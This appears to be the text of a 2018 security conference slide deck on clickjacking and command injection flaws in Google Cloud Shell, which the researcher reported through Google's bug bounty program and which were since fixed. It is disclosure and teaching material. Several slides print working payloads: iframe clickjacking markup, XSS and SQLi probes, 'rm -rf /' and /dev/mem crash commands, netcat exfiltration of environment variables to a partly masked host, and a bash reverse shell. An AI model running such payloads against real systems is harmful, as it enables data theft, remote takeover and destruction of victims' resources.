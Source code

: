 Unconventional Vulnerabilities in Google Cloud Platform
1st November 2018

Content
01 Google Cloud Platform 02 Google Cloud SDK and Cloud Shell 03 Code Editor Clickjacking 04 Google Cloud Shell 05 Command Injection 06 Some Tips and Tricks 07 Bug bounty tips
2

#./whoami - Venkatesh Sivakumar - Security Consultant @ DarkMatter LLC - Security Researcher @ Google VRP (in free time) - Acknowledged by 100+ Companies all around the world - CTF player @ h4ckx0r5
3

Google Cloud Platform
- Compute (Compute Engine, App Engine, Kubernetes Engine etc.) - Storage (Cloud Storage, Persistent disk etc.) - Migration (Data Transfer, Transfer Appliance etc.) - Databases (Cloud SQL, Cloud Bigtable, Cloud Spanner etc.) - Networking (VPC, Cloud Load Balancing, Cloud Armor etc.) - Developer tools (Cloud SDK, Container Registry, Cloud Build etc.) - Management tools (Stackdriver, Monitoring, Logging, Cloud Shell
etc.)
4

Google Cloud SDK
- Can be used to manage 90% GCP functionalities - Command line interface - User friendly - Localhost setup - Comes with gcloud, gsutil, bq, kubectl and powershell cmdlets
https://cloud.google.com/sdk/
5

Google Cloud Shell
- Pre-installed Google Cloud SDK and other linux tools - Command line interface - User friendly - Built-in authorization for access to GCP Console projects and
resources - On Cloud - Built-in Code Editor - Comes with gcloud, gsutil, bq, kubectl and powershell cmdlets
https://cloud.google.com/shell/
6

Code Editor Clickjacking
7

??Clickjacking??
8

Google VRP Rules
- https://www.google.com/about/appsecurity/reward-program/ - https://sites.google.com/site/bughunteruniversity/nonvuln/xsrf-
with-meaningless-action - https://sites.google.com/site/bughunteruniversity/nonvuln/clickjack
ing-with-unreasonable-user-interaction
9

Clickjacking

OWASP definition:
Clickjacking, also known as a "UI redress attack", is when an attacker uses multiple transparent or opaque layers to trick a user into clicking on a button or link on another page when they were intending to click on the the top level page. Thus, the attacker is "hijacking" clicks meant for their page and routing them to another page, most likely owned by another application, domain, or both.

- https://www.owasp.org/index.php/Testing_for_Cli ckjacking_(OTG-CLIENT-009)
10

Code Editor
https://8085-dot-3004081-dot-5024dot-devshell.appspot.com/edit/edit.html
- Lack'ed all clickjacking protections (X-Frame, CSP, JS busting etc.) - The URL is uniquely generated one - With three clicks, attacker can make victim delete files (not limited to)
11

Unexploitable one?

- Problem with this clickjacking: (How to find the editor url of other users?)
Brute force? (not an efficient way)

- After more recon, found an endpoint that triggered code editor url i.e https://ssh.cloud.google.com/devshell/proxy?a uthuser=0&port=8085&cloudshell_retry=true will redirect to code editor url

- Leveraging: <iframe src="https://ssh.cloud.google.com/devshell/pro xy?authuser=0&port=8085&cloudshell_retry=tr ue"></iframe>

Redirected to code editor within iframe (which means now it's "no more" unexploitable one).

- /edit/edit.html

12

Another Endpoint
- Upon invoking editor, by default the url that gets loaded is "/edit.html" How to load git endpoint within iframe ?
- After more enumeration ,found "devshellProxyPath" parameter with which browser can be forwarded to different page
- Final exploit:
<iframe src="https://ssl.cloud.google.com/devshe ll/proxy?authuser=0&port=8085&cloudsh ell_retry=true&devshellProxyPath=/git/git -repository.html"></iframe>
- /git/git-repository.html
13

Fix?
- Google cloud team fixed this issue with x-frame-options set to same origin - Retested after few months ( x-frame options was missing again :D ) , Got in touch with
VRP team regarding this! ( they checked and filled new bug report ) - Retested it again after few months, realized that, issue was fixed with CSP frame-
ancestors ( Had a feeling it might be an improper fix, since CSP is not supported by a few browsers ) Got in touch with VRP team with CSP unsupported browser poc, once again VRP team considered it as an issue Now it's completely fixed.
14

Google Cloud Shell
- GCP -> Activate Cloud Shell (Technically single click) or direct access with this URL "https://console.cloud.google.com/cloud shell/editor?project=YourProject&shellonly=true"
15

Command Injection
Execution of arbitrary commands on the host operating system via a vulnerable application. Reference: https://www.owasp.org/index.php/Comm and_Injection
16

Interesting Endpoint?
https://console.cloud.google.com/home/d ashboard?project="name of the project"
IDOR: https://console.cloud.google.com/home/d ashboard?project=project1 SQLi: https://console.cloud.google.com/home/d ashboard?project=%27 XSS: https://console.cloud.google.com/home/d ashboard?project="><img src=x onerror=alert(1)>
17

Interesting Endpoint?
https://console.cloud.google.com/home/d ashboard?project="name of the project"
Command Injection: https://console.cloud.google.com/home/d ashboard?project=;ping google.com
https://console.cloud.google.com/home/d ashboard?project=;cat /etc/passwd Though the endpoint executed commands on the console, it only impacts our own cloud shell. (which means only our GCP resources) So is it Unexploitable?
18

Google Cloud Command Injection - Exploiting "the unexploitable one"
Crashing Victim VM: https://console.cloud.google.com/home/d ashboard?project=;sudo cp /dev/zero /dev/mem
Once the victim accesses the above url and clicks "Activate cloud shell" , his/her vm crashes.
Deleting Files: https://console.cloud.google.com/home/d ashboard?project=;sudo rm -rf /
This will delete victims root directory which also deletes GCP resource files which includes appengine files, other applications hosted etc.
19

Exfiltration of data through Netcat
Exfiltrating ENV variables:
https://console.cloud.google.com/home/d ashboard?project=;sudo apt-get install netcat --assume-yes && export > export.out && nc -w 3 167.x.x.61 1234 < export.out Exfiltrating compute engine details:
https://console.cloud.google.com/home/d ashboard?project=;sudo apt-get install netcat --assume-yes && gcloud compute instances list > instancelist.out && nc -w 3 167.x.x.61 1234 < instancelist.out
20

Reverse Shell and other exploitation commands

Reverse Shell:

https://console.cloud.google.com/home/d ashboard?project=;bash -i >& /dev/tcp/167.x.x.61/5000 0>&1
Deleting Compute engine instances:

https://console.cloud.google.com/home/d ashboard?project=;gcloud compute instances delete "name" --quiet --zone us-central1-c
Deleting Cloud storage buckets:

https://console.cloud.google.com/home/d ashboard?project=;gsutil rm -r gs://bucketname/

Fix - Google Cloud Security team fixed it by sanitizing the input given to parameter "project"

21

Some tips and tricks
- Always retest the reported issues - Do proper enumeration - Don't keep switching targets (Focus on one product) - Keep eyes open for alpha and beta features - Before starting to test an application understand the application functionalities by reading
publicly available docs
22

Bug bounty tips
- Be good at Web App PT at-least - Read hackerone reports (site:hackerone.com reports) - Follow bug bounty researchers on twitter/slack and their blogs - https://forum.bugcrowd.com/t/researcher-resources-how-to-become-a-bug-bounty-
hunter/1102 - Keep reading new methods - You will end up with many duplicates/NA, overcome that!! put your full dedication (you
will see the improvement) - Focus is important thing! Be determined - Think out of box - https://www.bugcrowd.com/university/
23

Bug bounty tips (Cont)
- https://github.com/Hacker0x01/hacker101 - https://github.com/djadmin/awesome-bug-bounty - https://github.com/ngalongc/bug-bounty-reference - https://github.com/EdOverflow/bugbounty-cheatsheet
24

Thanks!
25


